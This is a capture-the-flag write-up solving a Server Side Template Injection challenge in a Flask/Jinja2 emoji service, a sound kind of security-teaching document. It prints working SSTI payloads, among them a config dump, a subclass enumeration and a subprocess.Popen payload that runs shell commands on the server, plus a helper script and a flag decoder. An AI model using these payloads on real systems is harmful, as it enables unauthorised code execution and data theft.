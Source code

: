 #+TITLE: Advent of CTF - Challenge 16
#+SUBTITLE: "Encoded"

* Challenge

In this challenge the use of templates is the thing to focus on. The emoji service by Santa is quite cool, but it used templates to render data, making it vulnerable to Server Side Template Injection.

What you will learn:

- Identify SSTI
- Use SSTI to read program variables
- Use SSTI to read files from the filesystem
- Use some python

* Solution
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/credmp.github.io/writeups/advent-of-ctf/challenge-16/index_att
:END:

#+CAPTION: Challenge start
[[file:index_att/start.png]]

The service will lookup the emoji for the word that you enter, such as Santa. Pro tip, in the sourcecode of the page is a link to a list of all supported emojis for extra fun. After trying several payloads you will eventually try ={{7*7}}=. This will render =49=.

#+CAPTION: Finding SSTI
[[file:index_att/ssti-found.png]]

Pro tip: [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection][Payload All The Things]] has a very nice list of payloads you can try. You will come to the conclusion that this is a Python Flask application using Jinja2.

The next thing to try is to grab the =config= variable from the application. This can be done through the use of the =config= variable name inside a template.

#+CAPTION: Reading the config variable
#+begin_src javascript
{{config}}
#+end_src

This will list the application configuration. The =config= contains a =flag=, but it looks very weird. It is encoded using an unknown algorithm.

#+CAPTION: Finding the flag
[[file:index_att/encoded-flag.png]]

Looking at the available classes in the application, using Payload all the Things as a guide, it is clear that many classes are available.

#+CAPTION: Reading the classes available
#+begin_src javascript
{{ ''.__class__.__mro__[1].__subclasses__()}}
#+end_src

When run in the application a long list of classes are listed. A class such as =subprocess= is required in order to execute things on the file system. The exact index is required in order to use it, so start counting....

#+CAPTION: All the subclasses
[[file:index_att/classes.png]]

Not necessary of course! The below python helper script will find it for you. Just copy the data into a file called =data.txt= and run the script.

#+CAPTION: Python helper script
#+begin_src python
#!/usr/bin/env python3

with open('data.txt') as p:
    check = p.read()

for index,value in enumerate(check.split(',')):
    if "<class 'subprocess.Popen'>" in value:
        print(index)
#+end_src

In my case it was index =286=. Experiment with calling the process. In the end you will end up with something like the below listing. It calls =cat app.py= and then using =communicate()= to retrieve the data from the proces.

#+CAPTION: Getting the file contents
#+begin_src javascript
{{ ''.__class__.__mro__[1].__subclasses__()[286]('cat app.py',shell=True,stdout=-1).communicate()[0].strip()}}
#+end_src

The sourcecode is then shown on the webpage. Reading it shows there is a =magic= function that encodes/decodes the flag. It does this by reading the flag from =/tmp/flag.txt=, this flag is set there during the =supervisor= startup and is not readable for the application.

[[file:index_att/sourcecode.png]]

Copy the code to your favorite editor and recreate the =magic= function. In a python shell it looks like this:

[[file:index_att/magic.png]]

#+CAPTION: Running the decoder
#+begin_src javascript
def magic(flag, key):
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[::-1][x]) ^ ord(key[x])) for x in range(len(flag)))
 
flag="HKQ\x1f\x7f~e|\x06{r9<\x03/3z\x12#Rr )G#*\x14,#dp=Z@AP\x0c*"
magic(flag, '112f3a99b283a4e1788dedd8e0e5d35375c33747')
#+end_src
 
The challenge is solved, also don't forget the badge!

[[./index_att/badge.png]]

Go back to the [[../../../index.org][homepage]].
